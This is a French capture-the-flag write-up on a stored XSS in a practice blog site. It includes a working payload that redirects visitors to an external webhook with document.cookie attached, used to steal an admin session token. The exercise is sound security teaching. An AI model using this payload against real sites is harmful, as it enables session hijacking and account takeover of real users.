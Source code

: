 # Write-Up - Web / Blog Cola 1/2 

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur du site web, ce qui donnera accès au panneau d'administration (qui affiche le flag).

## Faille de sécurité

La faille présente dans ce site web est une [XSS Stockée](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_stock%C3%A9_(ou_permanent)). Ce type de faille permet d’injecter du code JavaScript dans une page. Ce code est ensuite interprété par tous les clients qui la visite. En fonction du code JavaScript injecté, il est possible de faire beaucoup de choses. Dans notre cas, il suffit de voler le cookie `token` de l’admin, qui sera accessible au moment où il visionnera la page. Grâce à ce cookie, il sera possible de s’authentifier et d’accéder à la page admin.

Il est important de noter que le vol du cookie n’est possible que parce qu’il n’est pas en `HttpOnly`.

## Exploitation

La première étape consiste à identifier le point d’injection de notre XSS. Ici, le site est assez petit, donc essayons de voir ce qu’il se passe quand on crée un nouvel article avec de la mise en forme, par exemple du gras et de l’italique.

![article gras et italique](./wu/image-3.png)

Il est possible de voir que la requête envoyée par notre navigateur comprend du code HTML (ici `p`, `em` et `strong`).

![code html](./wu/image-4.png)

En regardant le nouvel article créé, on voit bien que rien n’a été filtré.

![nouvel article](./wu/image-5.png)

Maintenant que nous avons vu comment injecter du HTML, essayons d’en tirer quelque chose, par exemple, exécuter le code JavaScript `alert(1)`.

Pour cela, le plus simple est d’envoyer une requête de création et de l’éditer pour en renvoyer une seconde qui contiendra ce que l’on veut.

![aa](./wu/image-8.png)

![req](./wu/image-9.png)

Clic droit > modifier et renvoyer

![modif](./wu/image-11.png)

(Il faut faire attention à bien modifier le titre aussi.)

En retournant sur la page d’accueil, on peut voir que notre JavaScript a bien été exécuté.

![alert](./wu/image-12.png)

Il est maintenant temps de récupérer le cookie. Pour ce faire, JavaScript permet d’accéder à tous les cookies non-HttpOnly via la variable `document.cookie`. Pour recevoir ce cookie, il est nécessaire de mettre en place une webhook. Par exemple, on peut utiliser [Beeceptor](https://beeceptor.com/).

J’utiliserai l’endpoint à l’URL `https://qsdfze.free.beeceptor.com`

![beeceptor](./wu/image-13.png)

Pour simplifier l’exploit, je vais utiliser une redirection du navigateur de la cible vers `https://beecptor?cookie=+document.cookie`. Cette technique est facile à mettre en œuvre mais très visible dans les cas d’attaques réelles.

Le code JavaScript à exécuter est donc :

```js
window.location = "https://qsdfze.free.beeceptor.com?cookie=" + document.cookie
```

Il ne reste plus qu’à utiliser la même technique que précédemment, mais avec ce nouveau payload à la place du `alert(1)`. Attention : comme notre payload contient des `?`, `&`, `%` ou `=`, il est nécessaire de l’encoder en URL. Version URL encodée disponible [ici](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8vcXNkZnplLmZyZWUuYmVlY2VwdG9yLmNvbT9jb29raWU9IiArIGRvY3VtZW50LmNvb2tpZQ).

Payload final :

```html
title=bbbbb&tinyMCE=<script>window%2Elocation%20%3D%20%22https%3A%2F%2Fqsdfze%2Efree%2Ebeeceptor%2Ecom%3Fcookie%3D%22%20%2B%20document%2Ecookie</script>
```

**<!> Si vous avez déjà envoyé un `alert` auparavant, il est nécessaire de réinitialiser l’application. Le `alert` bloque le chargement de la page.**

![send payload](./wu/image-14.png)

En visitant soi-même la page principale, on peut voir qu’on est redirigé. Il ne reste plus qu’à attendre 30 secondes pour voir le token admin arriver.

![admin token](./wu/image-17.png)

Pour voir la page admin, il suffit d’ajouter le token à son navigateur et de s’y rendre.

![admin token add](./wu/image-18.png)

![admin page](./wu/image-19.png)
